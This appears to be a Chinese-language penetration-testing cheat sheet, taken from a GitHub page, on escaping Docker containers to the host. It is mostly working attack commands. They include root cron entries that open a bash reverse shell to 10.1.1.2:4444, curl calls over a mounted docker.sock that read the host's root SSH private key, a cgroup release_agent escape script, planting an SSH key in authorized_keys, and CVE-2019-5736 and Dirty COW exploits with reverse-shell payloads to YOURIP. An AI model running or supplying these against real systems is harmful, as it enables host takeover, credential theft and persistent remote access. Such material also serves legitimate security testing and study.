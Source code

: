 	    一个工具https://github.com/stealthcopter/deepce
	    二个工具https://github.com/gabrtv/shocker
  #### 判断是否在docker容器中
	    检查/.dockerenv文件是否存在
	    检查/proc/1/cgroup内是否包含"docker"等字符串。
	    mount、fdisk -l查看硬盘 、判断PID 1的进程名
  #### 配置不当引发的逃逸
	    挂载点/在宿主/mnt目录
	    >docker -H tcp://10.1.1.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
	    容器内执行
	    >echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.2/4444 0>&1' >> /mnt/var/spool/cron/crontabs/root
	    本地监听4444，获得宿主机shell
  #### Docker sock
	    Docker.sock 是一个 Unix 套接字，它使 Docker 服务器端守护进程 dockerd 能够通过 REST API 与其命令行接口进行通信。 套接字显示为 /var/run/docker.sock 文件。 因为它是一个文件，管理员可以在容器中共享和运行 docker.sock，然后使用它与该容器进行通信。 运行 docker.sock 的容器可以启动或停止其他容器，在主机上创建镜像或写入主机文件系统。 这一切意味着当您运行“docker”命令行工具时，它实际上是在与 docker 套接字通信。
	    有时开发人员会将 docker 套接字安装在 docker 容器内，以便他们可以管理其他容器。 这通常使用以下命令完成：：
	    docker run -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest
	    注意“-v /var/run/docker.sock:/var/run/docker.sock”选项，这个标志将在 docker 容器内挂载 docker 套接字。 攻击者所要做的就是下载 docker CLI，他们将完全控制 docker API，这将允许他们删除容器、创建容器、执行命令或其他任何他们想要的东西
	    容器内找到docker.sock
	    >find / -name docker.sock
	    容器内查看宿主机信息
	    >docker -H unix:///var/位置 info
	    运行一个容器挂载宿主机根路径
	    >docker -H unix:///var/位置 run -it -v /:/test ubuntu /bin/bash
	    查看宿主机文件
	    >ls /test
	    手动操作
	    查看可用的镜像
	    curl --unix-socket docker.sock http://localhost/images/json -s
	    创建一个容器
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"Hostname": "", "Domainname": "", "User": "", "AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Tty": true, "OpenStdin": true, "StdinOnce": true, "Entrypiont": "/bin/sh", "Image": "容器名称", "Volumes": {"/host/": {}}, "HostConfig": {"Binds": ["/:/host"]}}' http://localhost/containers/create
	    启动容器
	    curl --unix-socket docker.sock -s -X POST http://localhost/containers/容器ID/start
	    创建任务1
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["ls", "/host/"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    任务回显
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start -o-
	    创建任务2 列出root .ssh目录
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["ls", "/host/root/.ssh"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    查看回显
	    curl --unix-socket docker.sock -o- -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start
	    创建任务3 查看私钥文件
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["cat", "/host/root/.ssh/id_rsa"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    查看私钥
	    curl --unix-socket docker.sock -o- -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start
  #### 特权用户
	    Docker image如果使用“--privileged”标志运行，该标志禁用 Docker 提供的所有保护和隔离。运行“fdisk -l”并接收输出，可认为特权身份允许。
	    剩下要做的就是将主机文件系统挂载到“/dev/sda1”
	    >mkdir /test
	    >mount /dev/sda1 /test,读取宿主机文件。
	    写入计划任务
	    >echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.2/4444 0>&1' >> /test/var/spool/cron/crontabs/root
	    本地监听返回shell
	    或挂在root目录后写入私钥文件
	    >docker run -itd -v /root:/root ubuntu:18.04 /bin/bash
	    >mkdir /root/.ssh
	    >cat id_rsa.pub >> /root/.ssh/authorized_keys
	    还可以尝试以下 POC 漏洞利用代码：
```bash
    d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
    mkdir -p $d/w;echo 1 >$d/w/notify_on_release
    t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    touch /o;
    echo $t/c >$d/release_agent;
    echo "#!/bin/sh $1 >$t/o" >/c;
    chmod +x /c;
    sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
  #### CVE-2019-5736
	    条件Docker < 18.09.2，runc< 1.0-rc6（docker ；docker-runc查看版本）
	    git clone https://github.com/Frichetten/CVE-2019-5736-PoC
	    >vim main.go
	    >payload = "#!/bin/bash \n bash -i >& /dev/tcp/YOURIP/1234 0>&1"
	    编译
	    >CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
	    复制到容器上执行
	    管理员通过exec进入容器，触发Payload
  #### CVE-2019-14271
  #### 脏牛漏洞实现Docker逃逸
	    >git clone https://github.com/gebl/dirtycow-docker-vdso.git
	    >cd dirtycow-docker-vdso/
	    >sudo docker-compose run dirtycow /bin/bash
	    >cd /dirtycow-vdso/
	    >make
	    >./xx YOURIP:1234
  #### 能力
	    CAP_SYS_ADMIN
	    CAP_SYS_PTRACE
	    CAP_SYS_MODULE
	    CAP_DAC_READ_SEARCH
	    CAP_DAC_OVERRIDE